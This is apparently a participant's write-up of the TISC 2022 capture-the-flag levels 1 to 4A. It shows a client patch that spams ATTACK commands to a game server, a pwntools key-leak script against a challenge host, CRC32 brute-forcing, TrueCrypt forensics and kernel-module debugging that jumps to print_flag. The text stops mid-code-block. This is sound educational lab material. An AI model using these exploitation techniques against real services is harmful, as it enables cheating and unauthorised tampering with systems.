








# The Challenge
---

The **Information Security Challenge** (TISC) is an annual Capture The Flag (CTF) competition hosted by the Centre for Strategic Infocomm Technologies (CSIT) in Singapore. 

The CTF features a series of 10 levels over the span of 2 weeks, covering various CTF topics including, but not limited to, **Web Pen-testing, Forensics, Reverse Engineering, Binary Exploitation, Cryptography,** and **Mobile Security**.

In order to unlock levels, you had to clear all the levels before. At level 4 and 5, a choice was given to the participants to pick between RE or Cloud/Web challenges. I opted for the RE challenges which my writeup below will cover.

The CTF also featured a total prize pool of **$30,000SGD** for participants who solved level 8 and above.

Although I managed to quickly climb the leaderboard to stay in 1st place for majority of the CTF, I eventually got hardstuck at 7 and finished at 5th place.


_p.s. this writeup is not an exact representation of my thought process and steps taken to solve the challenges mentioned. it is merely a much more simplified and bite-sized summary to guide the reader through my solution_


## LEVEL 1: Slay The Dragon
---



_Files attached:_ [slay_the_dragon.zip](attachments/1/slay_the_dragon.zip)

### Basic Analysis of the Game

Upon running the program provided to us, we are presented with a menu in a game.



As a player, we are allowed to **FIGHT A BOSS**, **MINE GOLD** or **VISIT SHOP**.

#### Fight A Boss

We as a player _(with 10 HP)_ have to defeat 3 bosses _(slime, wolf and dragon)_ in order to win the game and get the flag.

Naturally, defeating the boss by normal means is *impossible* as the dragon will one-shot you.

#### Mine Gold

It takes around 5 seconds to mine 5 gold, with a small probability of dying to a creeper explosion.

#### Visit Shop

We can purchase a sword which increase our attack from 1 to 3. The damage does not stack even with multiple swords.

We can also purchase a health potion which increase our HP by a small fraction.

&nbsp;

### Exploiting the Game

Some people will immediately jump to try to call functions such as **print_flag** or increase the damage of the player by 10000. However, it is not so simple.

Looking into the source code, how the game works behind the scenes is that the client will send a bunch of data _(corresponding to the user's actions)_ to the server, and the server may **validate** the data sent by the client.

If we look at the source code for the mining event for example,

```python
# server side mining code
class WorkService:
    def __init__(self, server: GameServer):
        self.server = server

    def run(self):
        self.server.game.player.gold += WORK_SALARY
```

```python
# client side mining code
CREEPER_ENCOUNTER_CHANCE = 0.2


class WorkEvent:
    def __init__(self, client: GameClient) -> None:
        self.client = client

    def run(self):
        if random() <= CREEPER_ENCOUNTER_CHANCE:
            self.__die_to_creeper()
        self.__mine_safely()

    def __mine_safely(self):
        screens.display_working_screen()
        x = input("how many mine?")
        for _ in range(int(x)):
            self.client.send_command(Command.WORK)

```

We can see that the long wait time for mining for gold is due to the client side code `display_working-screen()` and is not enforced on the server side. This is the same for the **chance to encounter a creeper**.

This means we can simply comment out these lines to get as much gold as we want easily without waiting or dying.

However, this is trivial and does not help us to defeat the dragon. Let's get straight to the juice of the challenge which is the battle event.

```python
# client side code

while True:
    self.__display()

    match self.__get_battle_command():
        case Command.ATTACK:
            self.__attack_boss()
            if self.boss.is_dead:
                break
        case Command.HEAL:
            self.__use_potion()
        case Command.RUN:
            self.client.send_command(Command.RUN)
            return
        case _:
            continue

    self.player.receive_attack_from(self.boss)
    if self.player.is_dead:
        break

self.client.send_command(Command.VALIDATE)
```

```python
self.__send_next_boss()

while True:
    self.history.log_commands_from_str(self.server.recv_command_str())

    match self.history.latest:
        case Command.ATTACK | Command.HEAL:
            self.history.log_command(Command.BOSS_ATTACK)
        case Command.VALIDATE:
            break
        case Command.RUN:
            return
        case _:
            self.server.exit(1)

match self.__compute_battle_outcome():
    case Result.PLAYER_WIN_BATTLE:
        self.__handle_battle_win()
        return
    case Result.BOSS_WIN_BATTLE:
        self.server.exit()
    case _:
        self.server.exit(1)
```

As we can see, the outcome of the battle is determined through a `stack-like` history structure.

The client send some **Commands** to the server-side, which upon receiving, the server will add to their history.

The server will then check the latest entry in the history to determine whether the boss should attack or not. How it works goes like this:

1. Client sends a Command.ATTACK to the server.
2. The server receives the Command and add it to the history.
3. The server will check the **last** entry of the history and determine that the boss should return an attack. Hence it will add a **BOSS_ATTACK** to the history.
4. After the battle has ended, the server will iterate through the history to determine the outcome.

So far, the code looks clean and logical. Let's look into the code behind the logging.

```python
class Command(Enum):
    ATTACK = "ATTACK"
	#...

@dataclass
class CommandHistorian:
    commands: List[Command] = field(default_factory=list)

    def log_command(self, command: Command):
        self.commands.append(command)

    def log_commands(self, commands: List[Command]):
        self.commands.extend(commands)

    def log_command_from_str(self, command_str: str):
        self.log_command(Command(command_str))

    def log_commands_from_str(self, commands_str: str):
        self.log_commands(
            [Command(command_str) for command_str in commands_str.split()]
        )
```

Interestingly, the `log_commands_from_str` function that was used by the server to get the user command reads in **multiple commands** at once, delimited by a whitespace, and concatenates it to the history.

The flaw here is that since the server only checks the **last** command in the history to determine whether the boss should attack, we can send multiple **ATTACK** commands, and the boss will only attack us once.

Hence, if we send enough **ATTACK** to kill the boss before it gets to attack us back, we will win the game.

This can be easily done by modifying the script slightly.

We will just change our client battle service code to the following:

```python
    def run(self):
        self.boss: Boss = self.client.fetch_next_boss()

        while True:
            self.__display()

            match self.__get_battle_command():
                case Command.ATTACK:
					# attack hundred times to kill dragon before it kills us
                    self.client.connection.send("ATTACK "*100 + "ATTACK")
                    break
                case Command.HEAL:
                    self.__use_potion()
                case Command.RUN:
                    self.client.send_command(Command.RUN)
                    return
                case _:
                    continue

            self.player.receive_attack_from(self.boss)
            if self.player.is_dead:
                break
```

With that, we can easily run the script and get our flag.

`TISC{L3T5_M33T_4G41N_1N_500_Y34R5_96eef57b46a6db572c08eef5f1924bc3}`


## LEVEL 2 - Leaky Matrices



_Attached File:_ [2WKV_Whitepaper.pdf](attachments/2/2WKV_Whitepaper.pdf)

_lol, crypto is my worst category but let's get into it anyways_

### Figuring out wthek is going on

> 2WKV operates on the basis of 
symmetric key cryptography. A 64 bit 
key must be securely generated and 
distributed to both endpoints before 
the algorithm can per form any 
verification. This 64 bit key represents 
the 8×8 binary matrix that will be used 
to perform mathematical operations 
in GF(2) during the Key Verification 
procedures.



With a little googling, we can find a [wikipedia page](https://en.wikipedia.org/wiki/GF(2)) and see that GF(2) simply means that we will be working with binary arithmetic (addition/multiplication).

By playing around with the service a litte, we see that it takes in 8 binary (0 or 1) of length 8, and returns a corresponding length 8 binary string.

It then challenges us by giving us some binary and asking us for our answer.

The server essentially generates a random 8*8 matrix as the key and use the key for the server to verity the client vice versa.

With a little thinking, we probably would've to **leak** something _(as hinted by the challenge name)_ in our first 8 inputs, and then solve the challenges given to us based on what we have leaked.

### Guessing to the solution

Honestly, after looking at everything, my brain was still empty _(noob mather)_ but an idea came to me.

If I have 8 inputs of length 8, could I possibly leak something that corresponds with each bit _(sound something like masking)_ and see what I can do with it? 

At this point, I was willing to try anything to avoid having to think of math so that's what I did.

I inputted 8 inputs with only one bit enabled for each input and recorded the corresponding output:

```
00000001 -> 11101010
00000010 -> 01110001
00000100 -> 01010111
00001000 -> 10001000
00010000 -> 00010101 
00100000 -> 00100010
01000000 -> 10000111
10000000 -> 10111001
```

Then I was challenged to return a correct response vector for the challenge `01111100`.

I decided to try to take the corresponding output vector to each bit and add them up together.

```
For the challenge vector 01111100,

00000100 -> 01010111
00001000 -> 10001000
00010000 -> 00010101 
00100000 -> 00100010
01000000 -> 10000111

10000111 + 00100010 + 00010101 + 10001000 + 01010111 = 01101111
```

and it magically worked!!!

I then decided to automate it with pwntools.

```python
from pwn import *

p = remote('chal00bq3ouweqtzva9xcobep6spl5m75fucey.ctf.sg', 56765)
arr = []


for i in range(8):
    payload = b'0'*i + b'1' + b'0'*(7-i)
    p.sendlineafter(b'<--', payload)
    p.recvuntil(b'--> ')
    arr.append(int(p.recvuntil(b'\n', drop=True), 2))


for i in range(8):
    p.recvuntil(b'--> ')
    chall = p.recvuntil(b'\n', drop=True)
    tmp = []
    for j in range(8):
        if chall[j] == ord('1'):
            tmp.append(arr[j])
    ans = tmp.pop(0)
    for k in tmp:
        ans ^= k
    p.sendline(bin(ans)[2:].zfill(8).encode())

p.interactive()
```

`TISC{d0N7_R0lL_Ur_0wN_cRyp70_7a25ee4d777cc6e9}`

## LEVEL 3 - PATIENT0

### Part 1



_Attached File:_ [PATIENT0](attachments/3/PATIENT0)

Downloading the file, we can see that it is a NTFS file system.

```
PATIENT0: DOS/MBR boot sector, code offset 0x52+2, OEM-ID "NTFS    ", sectors/cluster 8, Media descriptor 0xf8, sectors/track 0, FAT (1Y bit by descriptor); NTFS, physical drive 0xab3566f7, sectors 12287, $MFT start cluster 4, $MFTMirror start cluster 767, bytes/RecordSegment 2^(-1*246), clusters/index block 1, serial number 05c66c6b160cddda1
```

Opening it up in Autopsy, we can extract a file files:

1. broken.pdf
2. message.png
3. message.png:$RAND

If we look at the broken.pdf, we can extract a hint

```
1. The BPB is broken, can you fix it?
```

If we search up BPB regardint NTFS, we can find this [wikipedia page](https://en.wikipedia.org/wiki/BIOS_parameter_block#NTFS) which identifies BPB as the **BIOS Parameter Block**, which can be found between offset **0xB - 0x50** of the file.

If we look at the hex at these offsets of the file in 010editor, we can see the following



As we can see, most of the hex in the BPB are uninteresting, however we can see **TISC** in an unused segment of the NTFS BPB block.

If we try to submit the hexadecimal for the next 4 bytes that come after it, we get our flag for part 1.

`TISC{f76635ab}`

### Part 2

Now if we look at message.png


We see that it has a BASE32 _(i initially tot it was base64 but cyberchef said otherwise)_ which decoded to give us our second hint)_

```
2. Thirsty for the flag? Go find the stream.
```

If we keep digging around, we find more hints at the start and the end of the `message.png:$RAND` file.

```
3. Are these True random bytes for Cryptology?
4. If you need a password, the original reading of the BPB was actually Checked and ReChecked 32 times!
```

At this point I was rather stuck and confused about how to proceed.

I figured that hint 4 pointed to a CRC32 checksum but I could not seem to find a collision to get the original 4 bytes that was used as the flag in part 1.

At this point of the competition, many people were hardstuck at this level which pushed the organizers to release new hints.

The organizer released this image as one of the hint:


which can be easily identified as truecrypt logo with a simple google search. Then it occurred to me that this was what hint 3 was pointing to.

If I had to guess, hint 2 probably pointed to the `message.png:$rand` byte stream.

Could it be that the stream of bytes were **encrypted with TrueCrypt**??

I removed the part 3 and part 4 hints from the start and end of the stream, then threw it into TrueCrypt while using the flag in part 1 as the password.

This presented me with the following picture:



It hinted to finding a **key** and had empty blanks for the last word. It was obvious that the missing word is **collision**, however since all the other words on the _piece of paper_ were in leetspeak, we can expect the word **collision** to be in leetspeak as well.

This is where the final hint comes in. If we need a **password** _(the key in this context)_, the original reading of the BPB was **CRC32**-ed. This meant that the flag to part 1 is the CRC32 of the leetspeak version of **collision**. 

To verify our assumptions, we can write a script to get a leetspeak collision to generate the same crc32 hash.

```python
from zlib import crc32
from hashlib import md5

OUTER = "the ch3cksum h1des m4ny keys but the tru3 key re5embles an eng1ish w0rd wh1ch d3scribe5 th3 c0ndit1on of hash {}"
WORD = list("collision")
CRC32 = 0xf76635ab
PERMUTATIONS = ["collision"]
LEET = {"o": ["0", "o"],
        "l": ["1", "l"],
        "i": ["1", "i"],
        "s": ["5", "s"]}


for idx in range(len(WORD)):
    PREV_PERMUTATIONS = PERMUTATIONS[:]
    if WORD[idx] not in LEET:
        continue
    for x in PREV_PERMUTATIONS:
        PRIOR = list(x)
        perms = LEET[PRIOR[idx]]
        for char in perms:
            PRIOR[idx] = char
            if "".join(PRIOR) not in PERMUTATIONS:
                PERMUTATIONS.append("".join(PRIOR))

for EACH in PERMUTATIONS:
    if crc32(EACH.encode()) == CRC32:
        print(EACH)
```

which gave us an output of `c01lis1on` as the **key/password**.

However, where is the _hidden door_ where we can use this _key_?

My first assumption was that it would be a stegotrick with the image, which led me to try various steganography methods which took passwords such as steghide. However it was all to no avail.

Demoralized and confused me was just trying everything possible, and when I tried to use the _key_ to decrypt the same stream of bytes in TrueCrypt again, I was presented with a different decrypted file!!

I was shocked when it happened but ¯\\\_(ツ)\_/¯ _magic only possible with the ancient TrueCrypt_.

Anyways, the decrypted file was a powerpoint macro-enabled slide which played a music and had the text: `flag is md5 checksum of the audio clip`

This was trivial, and was easily solved by extracting the contents of the powerpoint and finding a file with a `.mp3` or `.wav` extension.

```
❯ 7z x flag.ppsm

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs x64)

Scanning the drive for archives:
1 file, 1166196 bytes (1139 KiB)

Extracting archive: flag.ppsm
--
Path = flag.ppsm
Type = zip
Physical Size = 1166196

Everything is Ok

Files: 40
Size:       1218992

❯ find . -name '*.mp3' | md5sum
2bf2c64ad4b1047e324a08dcf77e98f2  -
```

`TISC{2bf2c64ad4b1047e324a08dcf77e98f2}`

_wew that was painful but it only gets fun from here on_

## LEVEL 4A - One Knock Away



_Files Attached:_ [one](attachments/4a/one)

```
❯ file one
one: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=01f0f37660f2bacdf200f5ad84e31b2dd7ff58df, with debug_info, not stripped
```

As we can see, we are presented with an ELF binary. Let's analyze it a little with *strings* as good practice.

We can find some interesting strings:

```sh
TISC{%s}
Here is your flag!
%02x%02x%02x%02x%02x%02x%02x%02x%02x%02x%02x%02x%02x%02x%02x%02x
6Loading PALINDROME module...
6Cleaning up PALINDROME module.
852301e1234000e61546c131345e8b8a
ec9cbcbeaf6327c7d0b9f89df3df9423
8aee1f7493a36660dd398cc005777f37
01e26c52317ea6003c5097aa0666ba22
5526021d73a11a9d0775f47f7e4754c4
license=GPL
author=CY1603
description=N3tf1lt3r
srcversion=F63509672DA292C35B02A9C
depends=
retpoline=Y
name=one
vermagic=5.13.0-40-generic SMP mod_unload modversions
...
printk
crypto_skcipher_decrypt
crypto_req_done
sg_init_one
kmem_cache_alloc_trace
kmalloc_caches
kfree_sensitive
...
/home/ubuntu/Downloads/tisc2022/final
```

With some experience, we can identify strings like **printk**, **kmalloc**, **kfree** to be kernel functions.

We can also see that this binary has a description that says **N3tf1lt3r**. Since it's a kernel program, we can try to load it into our kernel with `sudo insmod one` command.

However if we try to load the module into kernel, we get an error as such:

```
insmod: ERROR: could not insert module one.ko: Invalid module format
```

If we google this error, we can find a [stackoverflow link](https://stackoverflow.com/questions/34379013/insmod-error-inserting-hello-ko-1-invalid-module-format) that mentions:

> Kernel from which you build your kernel module and to which you are inserting module should be of same version.

Looking back at our strings, we can see that the module was likely compiled on a **Ubuntu** vm with `5.13.0-40-generic` kernel version.

We can boot up a Ubuntu VM, and then install the `5.13.0-40-generic` kernel version via apt install.

```bash
$ sudo apt-get install linux-modules-5.13.0-40-generic linux-headers-5.13.0-40-generic linux-image-5.13.0-40-generic
```

For debugging purposes, we will want to extract the kernel _(vmlinuz)_ and run it in a QEMU-VM so we can attach our GDB.

We can extract it from `/boot/vmlinuz-5.13.0-40-generic`.

As for our file system, we will use a small busybox initramfs that we can easily get online. For simplicity sake, I reused an [initramfs](attachments/4a/initramfs.cpio.gz) from an old hxpctf kernel-rop challenge and modified some files to insert the `one` kernel module on boot.

I used this configuration to boot the qemu vm:

```bash
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64 \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 nokaslr nopti quiet panic=1 nosmap nosmep" \
    -s
```

which would allow us to debug the kernel from gdb on TCP `1234`. 

Additionally, we will modify our `/etc/init.d/rcS` inside of our initramfs to run `insmod /one.ko` to load the module on startup.

Finally, we can startup our VM by running `run.sh` and then attaching GDB _(with GEF extension)_ with `gef-remote`.

If we run `lsmod` inside of the VM,

```
/ # lsmod
one 16384 0 - Live 0xffffffffc0002000 (OE)
```

we can see that our module is loaded at a constant address of `0xffffffffc0002000`.

Now that we have our environment setup, let's further reverse our kernel module.

### Reverse Engineering our kernel module

Out of laziness, I skimmed through all the functions to get a rough idea of what each function does.

If we look at the `init_module()` function which is similar to the `main()` function in a normal C program, we see that it creates a net hook to call a **hook_func** when some conditions are met.

```c
int __cdecl init_module()
{
  _fentry__();
  nfho.hook = (nf_hookfn *)hook_func;
  nfho.pf = 2;
  *(_QWORD *)&nfho.hooknum = 0x8000000000000000LL;
  nf_register_net_hook(&init_net, &nfho);
  printk(byte_BB8);
  return 0;
}
```

This hook function calls another unnamed function `sub_865`.

```c
__int64 __fastcall hook_func(__int64 a1)
{
  _fentry__(a1);
  return sub_865();
}
```

The `sub_865` function seems to do some stuff, then makes some sort of strcmp 

```c
__int64 __fastcall sub_865(__int64 a1, __int64 a2)
{
		  // truncated
          while ( 1 )
          {
            v7 = (int)v6;
            if ( !check[v6] )
              break;
            if ( ++v6 == 5 )
              return hook_func_cold();
          }
          v8 = (unsigned __int8 *)kmem_cache_alloc_trace(kmalloc_caches[4], 3520LL, 16LL);
          ppyq((char *)v8, v5, 2uLL);
		  // truncated
          if ( !strcmp(val[v7], s) )
          {
            store[v7] = v5;
            check[v7] = 1;
            return 0LL;
          }
          *(_QWORD *)check = 0LL;
          check[4] = 0;
		  // truncated
```

This function seems to do some string comparison with **val**, and if it passes the comparison, it will store a value in a variable **store** and set **check** to 1.

It repeats this check for all 5 values of **val** and respectively modify **check** and **store**.

```py
val = ["852301e1234000e61546c131345e8b8a", "ec9cbcbeaf6327c7d0b9f89df3df9423", "8aee1f7493a36660dd398cc005777f37", "01e26c52317ea6003c5097aa0666ba22", "5526021d73a11a9d0775f47f7e4754c4"]
```

If we look inside the **pypyq** function

```c
bool __fastcall ppyq(char *result, char *data, size_t len)
{
  unsigned int v3; // edx
  unsigned int v4; // er14
  __int64 v5; // rbx
  __int64 *v6; // rax
  __int64 *v7; // r15

  _fentry__();
  v4 = v3;
  v5 = crypto_alloc_shash("md5", 0LL, 128LL);
  v6 = (__int64 *)_kmalloc(*(_DWORD *)v5 + 8, 3264LL);
  *v6 = v5;
  if ( !v5 )
    return 0;
  v7 = v6;
  if ( (*(_BYTE *)(v5 + 8) & 1) == 0 )
    (*(void (__fastcall **)(__int64 *))(*(_QWORD *)(v5 + 24) - 96LL))(v6);
  crypto_shash_update(v7, data, v4);
  crypto_shash_final(v7, result);
  crypto_destroy_tfm(*v7, *v7 + 8);
  return 1;
}
```

We see that it does a md5 hash. At this point, we can guess that perhaps the **val** variable is an array of 5 md5 hashes. We can verify this assumption by throwing the hashes into [hash cracker](https://crackstation.net/).


Perhaps, these are the bytes that is used in our `store` variable to decrypt the flag?

If we look back at `sub_895`, we note that after all 5 checks passes, `hook_func_cold()` is called. If we look inside `hook_func_cold`:

```c
void hook_func_cold()
{
  printk("Here is your flag!\n");
  print_flag();
  *(_QWORD *)check = 0LL;
  check[4] = 0;
  JUMPOUT(0x8A3LL);
}
```

It seems to call a `print_flag()` function.

```c
void __cdecl print_flag()
{
  _fentry__();
  the_work.work.data.counter = 0xFFFFFFFE0LL;
  the_work.work.entry.next = &the_work.work.entry;
  the_work.work.entry.prev = &the_work.work.entry;
  the_work.work.func = dont_need_to_reverse_this;
  queue_work_on(0x2000LL, system_wq, &the_work);
}
```

which in turn calls a function called `dont_need_to_reverse_this` _(let's take a peek inside)_

```c
void __fastcall dont_need_to_reverse_this(work_struct *work)
{
  // truncated
  zzp[7] = *store[1];
  zzp[12] = *store[1];
  zzp[21] = store[1][1];
  zzp[22] = store[2][1];
  zzp[37] = store[2][1];
  zzp[48] = store[2][1];
  zzp[10] = store[3][1] ^ 0x63;
  zzp[63] = store[2][1] ^ 0x63;
  v3 = crypto_alloc_skcipher("xts(aes)", 0LL, 0LL);
  v4 = (unsigned int *)v3;
  v5 = v3 + 8;
  if ( v3 <= 0xFFFFFFFFFFFFF000LL )
  {
    v5 = v3 + 8;
    if ( (unsigned int)crypto_skcipher_setkey(v3, zzp, 64LL) )
    {
      v2 = 0LL;
      v1 = 0LL;
    }
    else
    {
      v6 = _kmalloc(*v4 + 80LL, 3264LL);
      v1 = v6;
      if ( v6 )
      {
        *(_QWORD *)(v6 + 64) = v5;
        v7 = (_BYTE *)kmem_cache_alloc_trace(kmalloc_caches[5], 3264LL, 30LL);
        v2 = v7;
        if ( v7 )
        {
          v8 = store[4];
          v9 = store[0];
          v10 = store[1];
          *v7 = store[4][1] ^ 0xAB;
          v7[1] = *v9 ^ 0xA5;
          v7[2] = *v9 ^ 0x75;
          v7[3] = v10[1] ^ 0x43;
          v7[4] = v10[1] ^ 0xD6;
          v7[5] = store[2][1] ^ 0x4E;
          v11 = store[3];
          v2[6] = *store[3] ^ 0xF2;
		  // truncated
		  if ( !err )
          {
            for ( i = 0LL; i != 24; ++i )
              e_1[i] = v2[i];
            o_l = 0LL;
            v14 = (const char *)dffqa(e_1, 0x18uLL, &unk_B2F, &o_l);
            printk("TISC{%s}\n", v14);
          }
		  // truncated
}
```

It seems to decrypt the flag via an AES algorithm using **store** in the generation of the key.

### Trying to get the flag

_if you thought i was going to figure how to trigger hookfunc with the correct parameters, you are wroooooooong_

Let's try calling the `print_flag()` function in a _hacky_ way!

Since we have the base address of our kernel module @ `0xffffffffc0002000`, we can get the address of the `print_flag()` function at `0xffffffffc0002800`.

We can directly call this function by running the following command in GDB.

```
set $rip=0xffffffffc0002800
continue
```

We can then expect to get our flag in the kernel buffer by running the `dmesg` command.

```
